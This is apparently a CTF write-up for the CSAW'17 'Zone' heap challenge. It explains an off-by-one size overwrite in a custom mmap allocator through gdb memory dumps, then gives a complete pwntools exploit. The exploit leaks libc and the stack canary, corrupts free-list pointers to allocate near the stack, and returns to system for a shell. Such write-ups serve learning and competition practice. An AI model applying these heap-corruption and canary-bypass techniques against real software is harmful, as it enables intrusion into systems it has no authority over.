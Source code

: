 ```yaml
---
layout: post
comments: true
title: Zone - CSAW'17 (300 pts)
---
```


checksec output:
```
gef➤  checksec 
[+] checksec for '/home/sanat/csaw/zone'
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
gef➤  
```

There was literally no point in opening up the disassembly of the program in IDA. Its pretty obvious how the program works and we can understand its working using dynamic memory analysis.

```
Environment setup: 0x7fffffffde10
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
```

Stack leak right there. Although I think that was totally unnecessary since we can get that anyways through environ. I'll talk about this later.

So I allocated 2 chunks of size 20 with "AAAAAAAAA"s and "BBBBBB"s. Lets see where its getting stored.

```
gef➤  x/40xg 0x00007ffff7ff5000
0x7ffff7ff5000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5020:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5030:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5040:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5050:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5060:	0x4242424242424242	0x0000000000004242
0x7ffff7ff5070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5090:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50a0:	0x0000000000000040	0x00007ffff7ff50f0
0x7ffff7ff50b0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50c0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50d0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50e0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50f0:	0x0000000000000040	0x00007ffff7ff5140
0x7ffff7ff5100:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5110:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5120:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5130:	0x0000000000000000	0x0000000000000000
gef➤  
```

A few things I noticed about the way its all arranged.
1. A full mmap'ed space is given to a particular size. So if we request size 20 then whole mmap page just for that size. So if we next request size 40, it will have to create separate mmap page. [Very Inefficient Algorithm]
2. All free chunks in an mmap'ed space are held in a singly linked list. All allocated chunks dont have this special pointer (as usual).
3. There are no checks to see whether linked list is corrupted or not.

Because of this we can make it point to any arbitrary place as long as it contains valid size and pointer.

### Bug

Program reads 1 extra char. So we can overwrite size of next chunk. Doing so we can then free that chunk and then our next allocation of that size will give us that chunk in that place meaning we overlapped chunks.

```
gef➤  x/20xg 0x00007ffff7ff5000
0x7ffff7ff5000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5020:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5030:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5040:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5050:	0x0000000000000042	0x00007ffff7ff50a0 <-- "B" in place of size.
0x7ffff7ff5060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5090:	0x0000000000000000	0x0000000000000000
```
Now program will still think its a 0x40 size chunk. We request size 64 again. We get that allocation. Then when we free it again, it will be a free chunk of size 0x42 and if we make an allocation of size 0x42, we will get same chunk but with overflow.

Of course this will not work since 0x42 is not an aligned size type. All allocations for an mmap'ed page happen in 0x40,0x80 and so on. So overflow with 0x80. Then it will contain a pointer to that mmap page with size 0x80 only except this will be the only 0x80 free chunk lying in this area.

```
gef➤  x/20xg 0x00007ffff7ff5000
0x7ffff7ff5000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5020:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5030:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5040:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5050:	0x0000000000000080	0x00007ffff7ff4000 <-- ptr to other mmap'ed area of size 0x80......whats it doing in 0x40 segment ??
0x7ffff7ff5060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5090:	0x0000000000000000	0x0000000000000000
gef➤  x/20xg 0x00007ffff7ff4000
0x7ffff7ff4000:	0x0000000000000080	0x00007ffff7ff4090
0x7ffff7ff4010:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4020:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4030:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4040:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4050:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4090:	0x0000000000000080	0x00007ffff7ff4120

```
This way we can leak and control our linked pointers easily.

At this point we need to use the stack leak and find out address of saved rbp . Allocate chunk somewhere near saved rbp (trivial House Of Spirit attack) and overwrite it finally call exit and get shell.

```
ef➤  x/20xg 0x7fffffffde10
0x7fffffffde10:	0x0000000000000040	0x00007ffff7ff50a0
0x7fffffffde20:	0x00007ffff7ff5000	0x0000000000000080
0x7fffffffde30:	0x00007ffff7ff5050	0x00007ffff7ff4000
0x7fffffffde40:	0x0000000000000100	0x00007ffff7ff3000 <-- 0x100 is nice size. Lets make linked list ptr point here :)
0x7fffffffde50:	0x00007ffff7ff3000	0x0000000000000200
0x7fffffffde60:	0x00007ffff7ff2000	0x00007ffff7ff2000
0x7fffffffde70:	0x00000000004045f0	0xef7f095ce3cc7400 <-- canary
0x7fffffffde80:	0x00007fffffffdf70	0x0000000000000000
0x7fffffffde90:	0x00000000004045f0	0x00007ffff7495830 <-- RIP
0x7fffffffdea0:	0x0000000000000000	0x00007fffffffdf78
```

We will need to leak canary also. Once we make allocation, make our input continuous with canary, leak it and then do final attack.

There was no need for stack leak however since we could just make an allocation near environ and leak environ itself. Would have made for a tougher challenge.

```
gef➤  x/xg 0x7ffff7ffe0d5
0x7ffff7ffe0d5 <alloc_ptr+5>:	0x000060800000007f <-- nice size again
gef➤  
0x7ffff7ffe0dd <__curbrk+5>:	0x0000000000000000
gef➤  
0x7ffff7ffe0e5:	0x0000000000000000
gef➤  
0x7ffff7ffe0ed <pc_offset+5>:	0x0000000000000000
gef➤  
0x7ffff7ffe0f5 <nsamples+5>:	0x0000000000000000
gef➤  
0x7ffff7ffe0fd <samples+5>:	0xffffffdf88000000
gef➤  
0x7ffff7ffe105 <environ+5>:	0x000000000000007f <-- stack pointer

```

Final exploit code below.

```
#!/usr/bin/python
from pwn import *

p = remote("pwn.chal.csaw.io", 5223)
#p = process("./zone")
# flag{d0n7_let_m3_g3t_1n_my_z0n3}
raw_input()

def menu():
	p.recvuntil("5) Exit\n")

def allocate(size):
	menu()
	p.sendline("1")
	p.sendline(str(size))

def delete():
	menu()
	p.sendline("2")

def edit(name):
	menu()
	p.sendline("3")
	p.sendline(name)

p.recvuntil("Environment setup: ")
stack_leak = int(p.recv(14),16)

buf = "A"*64
buf += "\x80"
allocate(64)

edit(buf)
# Overflowed 1 byte.
allocate(64)
delete()

allocate(110)
buf = "A"*72
edit(buf)

# Leak libc.
menu()
p.sendline("4")
p.recvuntil(buf)
libc = p.recv(6)
libc += "\x00"*2
libc = u64(libc) - 0xb840f0
log.info("Libc: " + hex(libc))
log.info("Stack: " + hex(stack_leak))

stack = p64(stack_leak + 0x30)
#hook = p64(libc + 0x3c4af5)
#magic = p64(libc + 0xf0274)
system = p64(libc + 0x45390)

buf = "A"*64
buf += p64(0x80)
buf += stack
edit(buf)

allocate(64)
#p.interactive()
delete()

allocate(64)
# Chunk allocated near saved rbp. Leak canary.
finale = "Z"*41
edit(finale)

menu()
p.sendline("4")
p.recvuntil(finale)
canary = p.recv(7)
canary = "\x00" + canary
canary = u64(canary)
log.info("Canary: " + hex(canary))

delete()
allocate(250)

finale = "X"*40
finale += p64(canary)
finale += "D"*24
finale += p64(0x0000000000404653)
finale += p64(libc + 0x11e70)
finale += system
edit(finale)

p.interactive()

```
